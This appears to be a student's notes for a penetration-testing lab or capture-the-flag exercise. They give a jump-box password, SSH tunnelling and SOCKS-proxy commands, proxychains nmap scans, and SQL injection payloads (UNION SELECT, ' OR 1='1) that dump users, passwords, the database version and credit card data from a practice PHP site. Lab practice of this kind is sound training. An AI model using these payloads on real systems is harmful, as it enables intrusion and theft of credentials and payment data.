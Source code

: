 MS setup: 

JB Password:
```
v0cEcUbwIzY878p
```

```
ssh -MS /tmp/jump student@10.50.37.98	     

ssh -S /tmp/jump jump -O forward -D 9050

ssh -MS /tmp/web student@10.50.37.98

ssh -S /tmp/web web -O forward -L127.0.0.1:2224:10.100.28.40:4444

ssh -S /tmp/jump jump -O cancel -D9050

ssh -S /tmp/web web -O forward -D9050

proxychains nmap -Pn -n -T5 10.100.28.55

proxychains nmap --script http-enum 10.100.28.55
```

-----------------------------------------------------------------------

    Golden Rule:
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT table_schema,table_name,column_name from information_schema.columns
    ```
    ### step 4:  Craft more tailored queries
    q3 * Provide the password for users with administrator access to the DNLA database. To answer input the flag.
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members
    ```
    q4 * Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.
    ```
    ' OR 1='1
    ```
    q5 * Identify the version of the database that DNLA is utilizing.To answer input the full version.
    ```
    http://127.0.0.1:1111/cases/productsCategory.php?category=1 UNION SELECT table_schema,@@version,column_name from information_schema.columns
    ```



q6 * Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
```

127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members

'UNION SELECT id,creditcard_number,order from sqlinjection.payments' query


```
q7 * Find the flag associated with id 1337.
```

```
q8 * Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
(meh !! I ain't pressed)
